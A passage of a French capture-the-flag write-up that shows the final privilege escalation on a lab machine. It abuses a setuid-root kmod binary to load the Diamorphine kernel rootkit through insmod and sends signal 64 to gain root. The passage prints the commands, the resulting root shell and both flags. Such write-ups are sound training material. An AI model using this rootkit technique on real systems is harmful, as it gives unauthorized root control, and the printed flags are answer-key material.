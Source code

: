 ```shellsession
-rw-rw-r-- 1 chris chris   66 Dec 19  2020 user.txt
```

Voici le contenu du reminder :

> Those fools completely messed up the LinuxKI demo for our sales leads!  
> 
> Hopefully the admins got the message about our build not being able to load some random kernel module.  
> I will pester them again about it to see if there's something they can do.  
> On the bright-side, they seem to have done a fine job patching our demo install, so We should be back in business soon...

Et le premier flag : *1487c1696540a7d14bf896a2191a9ab1*

## El dia de la morphine

Si je cherche les fichiers appartenant à l'utilisateur puis au groupe *chris* je remarque l'exécutable `kmod` qui est setuid root :

`-rwsr-xr-x 1 root chris 174424 Mar 12  2020 /usr/bin/kmod`

Il va donc falloir compiler une rootkit kernel sur le système, la charger et obtenir le root de cette façon.

J'ai d'abord galéré car `gcc` indiquait l'absence du binaire `cc1` sur le système. Je l'ai finalement retrouvé à l'emplacement `/usr/lib/gcc/x86_64-linux-gnu/9/cc1`.

J'ai créé un lien symbolique depuis le dossier courant vers le programme et rajouté le chemin dans la variable PATH.

J'ai tenté de compiler la rootkit [ivyl](https://github.com/ivyl/rootkit) mais la compilation échouait, visiblement le code était trop vieux pour le kernel du système (5.4.0-58).

La compilation s'est en revanche bien passée avec [Diamorphine: LKM rootkit for Linux Kernels 2.6.x/3.x/4.x/5.x (x86/x86_64 and ARM64)](https://github.com/m0nad/Diamorphine).

L'aide de kmod indique qu'il fonctionne en partie grace à des liens symboliques. le binaire agit donc différemment selon comment il est appelé. Passer par un lien symbolique ne drop dans tous les cas pas le bit setuid.

On va donc utiliser `insmod` (l'un des liens symbolique) pour charger la rootkit puis envoyer le signal 64 au pid courant ce qui d'après la doc de *Diamorphine* donne les droits root au processus :

```bash
www-data@ki:/tmp/Diamorphine-master$ insmod diamorphine.ko 
www-data@ki:/tmp/Diamorphine-master$ kill -64 $$
www-data@ki:/tmp/Diamorphine-master$ id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
www-data@ki:/tmp/Diamorphine-master$ cd /root
www-data@ki:/root$ ls
root.txt  snap
www-data@ki:/root$ cat root.txt 
Congratulations! Feel free to tweet me @cwinfosec for feedback.

ae3e05609da7811c015920151e295612
```

Victory ! Le CTF nécessitait une bonne part d'intuition mais j'ai eu les idées claires.

*Publié le 4 novembre 2022*
